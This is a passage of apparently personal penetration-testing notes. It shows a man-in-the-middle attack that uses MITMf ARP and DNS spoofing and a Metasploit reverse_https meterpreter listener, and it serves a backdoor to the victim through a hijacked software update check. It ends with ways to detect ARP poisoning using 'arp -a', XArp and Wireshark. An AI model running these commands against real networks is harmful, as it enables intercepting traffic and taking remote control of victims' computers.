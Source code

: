 ▶️> mitmf --arp --spoof --gateway 10.20.14.1 --target 10.20.14.206 -i eth0 --dns


Now we need  to listen on the connection using metasploit like before:

	▶️> msfconsole
	▶️> use exploit/multi/handler
	▶️> show options
	▶️> set PAYLOAD windows/meterpreter/reverse_https   [ this payload is the meterpreter payload that we generated befor, so we set it]
	▶️> set LHOST 10.20.14.213
	▶️> set LPORT 8080
	▶️> exploit
	
	
so here our programm checks for updates using updates.speedbit.com, the update is being redirected to our ip address where the evigrade is running and it will say there is an update and our backdoor will be delvered.


When target opens our dap payload and check for updates they will download our backdoor.

 ---------------------------
 
 
 
 
 HOW TO  DETECT ARP POISONING ATTACKS........?
 
 ---------------------------------------------
 Check our computers arp table by command 'arp -a'
 
 Find the mac andd ip association of the gateway. make sure the mac and ip of the gateway/router is the same of it.
 
 So if arp poisoning is affected by us, the mac address of the router will change with the mac address of the  attaker.
 
 
 example:
 
 	Before --->  192.168.1.1     52:34:b5:r3:43:33    Dynamic
 	After  --->  192.168.1.1     00:11:22:33:44:55   Dynamic
 
 So incase if we are affected the attacker will be in the middle of our connection.
 
 THIS IS THE MANNUAL METHOD.
 
 
NOW THERE IS A TOOL CALLED XARP WILL DO THIS AUTOMATICALLLY. [available for linux and windows]

https://xarp.net/#downloadhttps://xarp.net/#download

Download and open the tool

If something suspicious will happen it will show us


We can also use wireshark to do this.

In Edit > preferences > protocols > arp/rarp > detect arp request storms > ok

Start capturing
